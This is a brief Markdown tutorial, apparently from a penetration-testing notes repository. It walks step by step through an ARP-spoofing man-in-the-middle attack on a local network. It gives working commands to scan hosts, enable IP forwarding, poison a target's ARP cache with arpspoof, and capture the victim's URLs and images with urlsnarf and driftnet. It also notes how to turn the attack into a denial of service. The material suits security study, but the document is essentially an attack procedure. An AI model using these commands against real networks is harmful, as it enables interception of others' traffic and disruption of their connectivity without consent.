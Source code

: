 # Arp-spoofing

## Step 1

Run nmap or netdiscover to list the devices on the network. `netdiscover -r 192.168.1.0/24` or whatever network range it is. This is good because it is live, and it updates as soon as new devices connect to the network.

```text
nmap -vvv 192.168.1.0/24
```

## Step 2

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
```

this command is fundamental. Without changing it to `1`you will only block the traffic, but not forward it. So that will bring down the connection for that person. Denial of service. If you want to do that make sure it is set to 0. If you want to intercept it make sure it is set to 1.

## Step 3

```text
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```

* `-i` is the interface flag. In this example we choose the wlan0 interface. Run `ifconfig` to see which interfaces you have available.
* `-t` the target flag. It specifies your target. The first address is the router, and the second is the specific device you want to target.

## Step 4 - Read the traffic

So now you are intercepting the traffic. You have a few choices how to read it. Use urlsnarf.

```text
urlsnarf -i wlan0
```

it will output all URLs.

```text
driftnet -i wlan0
```

Driftnet is pretty cool. It let's you see all the images that is loaded in the targets browser in real time. Not very useful, but kind of cool.

* wireshark. Just open wireshark and select the interface and start capturing.
* Tcpdump. Also awesome.

